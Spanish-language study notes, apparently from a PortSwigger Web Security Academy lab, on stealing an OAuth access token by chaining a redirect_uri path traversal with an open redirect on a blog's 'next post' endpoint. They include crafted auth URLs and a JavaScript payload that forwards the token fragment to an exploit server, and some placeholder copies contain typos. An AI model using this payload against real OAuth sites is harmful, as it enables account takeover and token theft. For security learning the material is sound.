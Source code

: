 ![[Pasted image 20230214134931.png]]


![[Pasted image 20230314114555.png]]

antes de darle sign-in activar el intercept en modo off

![[Pasted image 20230414142918.png]]


verifico en el history de intercept:

![[Pasted image 20230414143027.png]]


esta traza la mando al repeater; asi mismo, hago un logout y luego un login with social media; luego en el history busco el request cuando se hace login con el token que ya existe de login with social media, cuando lo encuentro lo mando al repeater:

![[Pasted image 20230414143347.png]]

En esta fase vamos a probar si hay cambios modificando el parametro redirect_uri:

![[Pasted image 20230414143606.png]]

modificando a localhost:

![[Pasted image 20230414143639.png]]

haciendo rollback:

![[Pasted image 20230414143713.png]]

probando si podemos usar un path traversal:

![[Pasted image 20230414143827.png]]

puesto que si es vulnerable a path traversal activamos el intercept hacemos logout y login with social media, cuando ya haya llegado a este request uso el path traversal para acceder a una entrada del blog:

primer request interceptado:

![[Pasted image 20230414144153.png]]

segundo request:

![[Pasted image 20230414144228.png]]

tercer request:
![[Pasted image 20230414144308.png]]

aca hago la modificación al final de callback: /../post?postId=1

cuando ya tenga el post en pantalla apago el intercept:

![[Pasted image 20230414144447.png]]

![[Pasted image 20230414144520.png]]

me voy al final del post y verifico si puedo pasarme al segundo post:

![[Pasted image 20230414144633.png]]

![[Pasted image 20230414144701.png]]

puesto que se pudo ahora voy al history y busco la redirección al segundo post del blog y lo mando al repeater:

![[Pasted image 20230414144836.png]]

![[Pasted image 20230414144939.png]]

en este endpoint trato de modificar el path para verificar si puedo tener un redirect:

![[Pasted image 20230414145101.png]]

puesto que funciona ahora ya sabemos en que script hacer el secuestro del toekn. Entonces nos vamos al exploit server para probar payloads.

Script para ejecutar el exploit que utiliza michael sommer en el video:

https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email

<script>
if(!document.location.hash){
   window.location = 'https://YOUR-LAB-AUTH-SERVER.web-seurity-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web.security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
   } else {
   window.location = '/?'+document.location.hash.substr(1)
   }
</script>


Ajustandolo a mi sesion: en esencia toda la info que necesito esta en el repeater del LOGIN WITH Token:

![[Pasted image 20230414145331.png]]


https://oauth-0a91002a04b2f97381e9649902b00093.oauth-server.net/auth?client_id=omjr5ccbkaj82ywymlo0o&redirect_uri=https://0aa1005f048ef9c58132669700850042.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0600f50423f92781a365da01b500d4.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email

una vez que ya tengo este url maquetado lo pego en una pestaña y debería tener el Hello World del Exploit Server:

![[Pasted image 20230414150025.png]]

puesto que funciono hoy modificamos el script:

![[Pasted image 20230414150352.png]]

guardo y voy a access log:

![[Pasted image 20230414150418.png]]

ahora voy a la pestaña donde obtuve el hello world, hago nuevamente el request y verifico el access log:

![[Pasted image 20230414150504.png]]

me redirigió a la pagina del exploit server, verificando el access log:

![[Pasted image 20230414150551.png]]

podemos ver que hubo 4 eventos nuevos, entonces hoy usare la segunda parte del payload:

<script>
if(!document.location.hash){
   window.location = 'https://YOUR-LAB-AUTH-SERVER.web-seurity-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web.security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
   } else {
   window.location = '/?'+document.location.hash.substr(1)
   }
</script>

tomando los datos del request de login with social media:

<script>
if(!document.location.hash){
   window.location = 'https://oauth-0a91002a04b2f97381e9649902b00093.oauth-server.net/auth?client_id=omjr5ccbkaj82ywymlo0o&redirect_uri=https://0aa1005f048ef9c58132669700850042.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0600f50423f92781a365da01b500d4.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
   } else {
   window.location = '/?'+document.location.hash.substr(1)
   }
</script>

pegnado en el exploit server y presionando store:

![[Pasted image 20230414151409.png]]

luego view exploit y me debe redirigir al exploit server y efectivamente lo hizo, luego voy al access log y ahi veo una entrada con un access token:

![[Pasted image 20230414151545.png]]

puesto que este es la ip del exploit server regreso al exploit server, presiono Deliver to Victim y regreso al access log:

![[Pasted image 20230414151716.png]]

ahora ya obtuve el access token del server

![[Pasted image 20230414151800.png]]

ese token lo voy a copiar en el tab de GET ME y lo substituyo en la parte del Authorization Bearer:

![[Pasted image 20230414152107.png]]

substituyo en el token recien obtenido:

![[Pasted image 20230414152212.png]]

asegurarme de copiarlo todo, había dejado afuera la ultima parte -CS- por eso la primera vez me dio invalid token, pero efectivamente el proceso funcionó y ahora esa apiKey la envío para resolver el lab:

![[Pasted image 20230414152341.png]]

![[Pasted image 20230414152402.png]]

